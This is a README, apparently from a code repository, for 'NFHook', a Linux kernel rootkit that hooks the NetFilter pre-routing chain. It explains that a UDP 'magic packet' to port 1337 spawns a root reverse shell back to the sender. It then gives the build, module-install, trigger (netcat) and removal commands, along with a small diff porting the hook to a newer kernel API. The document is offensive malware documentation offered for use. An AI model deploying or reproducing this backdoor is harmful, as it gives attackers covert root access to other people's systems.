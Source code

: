 # NFHook: NetFilter Hooking rootkit #

# No longer original, Modified by me to specifically work with my kernel version, which was by the time I wrote this, 5.9.1 on Arch.



This rootkit registers a hook in the NetFilter pre-routing chain with high
priority, that is all incoming packets get through this hook first.

Once a "magic packet" is received (UDP packet on port 1337), a root reverse shell is
spawned back to the requester on the very same port.

Make sure you have un reverse shell script in `/usr/bin/reverse_shell.sh`

## Compilation ##
```
	$ make
```

## Installation ##
```
	$ sudo insmod nfhook.ko
```

## Usage ##
```
	$ echo "Hello world" | nc -u $target 1337
```

## Removal ##
```
	$ sudo rmmod nfhook
```

## Disclaimer ##

This is an experimental rootkit. Use it at your own risks.


# Modifications: #




# nfhook.c
      (...)
      // nf_register_hook(&rk_pre_routing);
      // nf_unregister_hook(&rk_pre_routing);
      
      // To
      nf_register_net_hook(&init_net,&rk_pre_routing);
      nf_unregister_net_hook(&init_net,&rk_pre_routing);
      
      
      
References I learned from:
https://elixir.free-electrons.com/linux/v4.13.16/source/net/core/net_namespace.c#L37
https://elixir.bootlin.com/linux/latest/source/include/linux/netfilter.h#L177
https://www.linuxjournal.com/article/7184

